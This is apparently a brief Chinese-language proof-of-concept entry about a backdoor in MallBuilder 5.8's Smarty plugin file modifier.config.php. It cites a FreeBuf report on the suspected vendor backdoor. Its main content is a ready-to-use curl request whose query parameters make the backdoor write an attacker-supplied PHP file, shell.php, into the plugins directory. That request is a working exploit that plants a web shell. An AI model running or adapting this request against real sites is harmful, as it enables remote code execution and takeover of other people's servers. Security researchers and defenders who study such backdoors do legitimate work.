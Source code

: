 ## modifier.config.php - smarty 框架后门

测试镜像

* src/mallbuilder/5.8/

参考链接

* [远丰集团旗下CMS疑有官方后门](http://www.freebuf.com/articles/web/164609.html)

Poc

```
# 请求
curl 'http://127.0.0.1/lib/smarty/plugins/modifier.config.php?codelock_filed=.&codelock_mastersize=3&codelock_act=3&codelock_enc=shell.php&codelock_masterdata=<?php+phpinfo();+?>'

# 生成
./lib/smarty/plugins/shell.php
```


